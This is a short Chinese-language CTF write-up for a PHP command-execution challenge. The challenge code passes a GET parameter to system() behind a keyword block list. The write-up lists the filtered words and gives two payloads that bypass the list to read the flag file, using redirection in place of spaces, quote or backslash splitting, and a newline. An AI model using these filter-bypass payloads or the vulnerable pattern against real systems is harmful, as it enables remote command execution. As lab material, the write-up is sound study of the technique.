



```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

空格

flag

数字

$

*

more

less

head

sort

tail

sed

cut

awk

strings

od

curl

`


### 第一种

同上题

<>绕过空格

\绕过字母

```
?c=ls||
```



```
?c=tac<>fl\ag.php||
```




### 第二种

<绕过空格

''绕过字母

%0a绕过无回显

```
?c=tac<fl''ag.php%0a
```

